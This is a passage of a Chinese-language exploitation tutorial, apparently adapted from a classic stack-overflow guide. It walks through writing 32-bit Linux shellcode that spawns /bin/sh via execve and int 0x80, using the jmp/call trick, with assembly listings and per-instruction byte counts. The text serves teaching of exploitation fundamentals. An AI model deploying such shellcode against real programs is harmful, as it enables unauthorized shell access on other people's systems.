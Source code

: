 

* a. 以`\0`结尾的字符串`"/bin/sh"`放入内存中(a null terminated string "/bin/sh")
* b. 在内存中的某个位置放置一个后跟一个空的字的字符串`"/bin/sh"`
* c. 将`0xb`放入`eax`寄存器中（`execve`的系统调用）
* d. 将`"/bin/sh"`字符串的指针的地址放入`ebx`寄存器中
* e. 将`"/bin/sh"`字符串的指针放入`ecx`寄存器中
* f. 将空指针复制进`EDX`寄存器中
* g. 执行`int $0x80`指令
* h. 将`0x1`放入`eax`寄存器中
* i. 将`0x0`放入`ebx`寄存器中
* j. 执行`int 0x80`指令

尝试将以上放入汇编语言中，将字符串放到代码后，然后记住我们放字符串的地址，然后在数组后面跟的一个空字符，如下：

```assembly
movl string_addr,string_addr_addr 
movb $0x0,null_byte_addr 
movl $0x0,null_addr 
movl $0xb,%eax 
movl string_addr,%ebx 
leal string_addr,%ecx 
leal null_string,%edx 
int	$0x80
movl $0x1, %eax 
movl $0x0, %ebx 
int	$0x80 
/bin/sh string goes here.
```

现在问题是，我们不知道我们想要exp代码会放在程序的内存空间的何处。有一个办法是我们用jmp和call指令跳转。jmp指令和call指令可以使用指令寄存器中(IP)相关的地址，意味着在我们不知道我们想要跳转的确切地址时，我们跳转至相对于指令指针有一定偏移量的地址（相对寻址）。如果我们在  `"/bin/sh"` 字符串之前放置一条`CALL`指令，并在其前面放置一条`JMP`指令，则在执行`CALL`时，字符串地址将被作为返回地址压入堆栈。然后，我们所要做的就是将返回地址复制到寄存器中。CALL指令可以简单地调用上面代码的开头。 现在假设`J`代表`JMP`指令，`C`代表`CALL`指令，而`s`代表字符串

![](stack4.png)

（图中没有足够的小s，strlen("/bin/sh") == 7）在这个修改下，用索引寻址，然后写下每个指令占用我们代码的字节数，如下所示：

```assembly
jmp		offset-to-call	# 2 bytes
popl 	%esi			# 1 byte
movl 	%esi,array-offset(%esi) 	# 3 bytes 
movb 	$0x0,nullbyteoffset(%esi)	# 4 bytes 
movl 	$0x0,null-offset(%esi) 		# 7 bytes 
movl 	$0xb,%eax		# 5 bytes
movl 	%esi,%ebx		# 2 bytes
leal 	array-offset(%esi),%ecx 	# 3 bytes 
leal 	null-offset(%esi),%edx 		# 3 bytes 
int	$0x80				# 2 bytes
movl 	$0x1, %eax		# 5 bytes
movl 	$0x0, %ebx		# 5 bytes
int	$0x80				# 2 bytes
call 	offset-to-popl	# 5 bytes
/bin/sh string goes here
```